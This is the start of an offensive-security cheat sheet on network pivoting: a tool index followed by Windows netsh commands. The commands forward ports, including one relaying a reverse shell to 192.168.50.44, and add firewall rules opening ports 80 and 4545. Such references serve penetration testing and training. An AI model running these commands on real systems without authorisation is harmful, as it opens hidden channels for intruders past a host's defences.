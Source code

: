 # Network Pivoting Techniques

## Summary

* [Windows netsh Port Forwarding](#windows-netsh-port-forwarding)
* [SSH](#ssh)
  * [SOCKS Proxy](#socks-proxy)
  * [Local Port Forwarding](#local-port-forwarding)
  * [Remote Port Forwarding](#remote-port-forwarding)
* [Proxychains](#proxychains)
* [Graftcp](#graftcp)
* [Web SOCKS - reGeorg](#web-socks---regeorg)
* [Web SOCKS - pivotnacci](#web-socks---pivotnacci)
* [Metasploit](#metasploit)
* [sshuttle](#sshuttle)
* [chisel](#chisel)
  * [SharpChisel](#sharpchisel)
* [gost](#gost)
* [Rpivot](#rpivot)
* [RevSocks](#revsocks)
* [plink](#plink)
* [ngrok](#ngrok)
* [Capture a network trace with builtin tools](#capture-a-network-trace-with-builtin-tools)
* [Basic Pivoting Types](#basic-pivoting-types)
  * [Listen - Listen](#listen---listen)
  * [Listen - Connect](#listen---connect)
  * [Connect - Connect](#connect---connect)
* [References](#references)

## Windows netsh Port Forwarding

```powershell
netsh interface portproxy add v4tov4 listenaddress=localaddress listenport=localport connectaddress=destaddress connectport=destport
netsh interface portproxy add v4tov4 listenport=3340 listenaddress=10.1.1.110 connectport=3389 connectaddress=10.1.1.110

# Forward the port 4545 for the reverse shell, and the 80 for the http server for example
netsh interface portproxy add v4tov4 listenport=4545 connectaddress=192.168.50.44 connectport=4545
netsh interface portproxy add v4tov4 listenport=80 connectaddress=192.168.50.44 connectport=80
# Correctly open the port on the machine
netsh advfirewall firewall add rule name="PortForwarding 80" dir=in action=allow protocol=TCP localport=80
netsh advfirewall firewall add rule name="PortForwarding 80" dir=out action=allow protocol=TCP localport=80
netsh advfirewall firewall add rule name="PortForwarding 4545" dir=in action=allow protocol=TCP localport=4545
netsh advfirewall firewall add rule name="PortForwarding 4545" dir=out action=allow protocol=TCP localport=4545

```
